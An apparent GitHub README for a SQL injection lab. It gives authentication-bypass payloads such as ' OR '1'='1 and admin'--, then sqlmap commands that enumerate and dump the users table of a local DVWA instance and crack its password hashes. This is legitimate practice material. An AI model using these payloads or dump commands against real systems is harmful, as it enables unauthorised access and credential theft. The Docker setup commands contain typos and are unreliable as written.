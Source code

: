 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

#Setting Up LoginSystem with SQL Database
* Create Database and Table

```
CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py - (edit the code) 

# Simple SQL Injection Examples
* For simple SQL injection, you can use ' OR '1'='1 or admin'-- in your input fields.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```

<img src="./PNGs/6.png">


# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)
1. Run DVWA Docker container:

```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<img src="./PNGs/1.png">

5. go to SQL injection 
<img src="./PNGs/4.png">



# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.


<img src="./PNGs/5.png">

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<img src="./PNGs/2.png">

## Using SQLmap
<img src="./PNGs/8.png">
You can use SQLmap to perform various tasks, such as: 
* Viewing all tables on the webpage:

```
cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<img src="./PNGs/7.png">

* Viewing table content and cracking password hashes:
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 

<img src ="./PNGs/3.png">


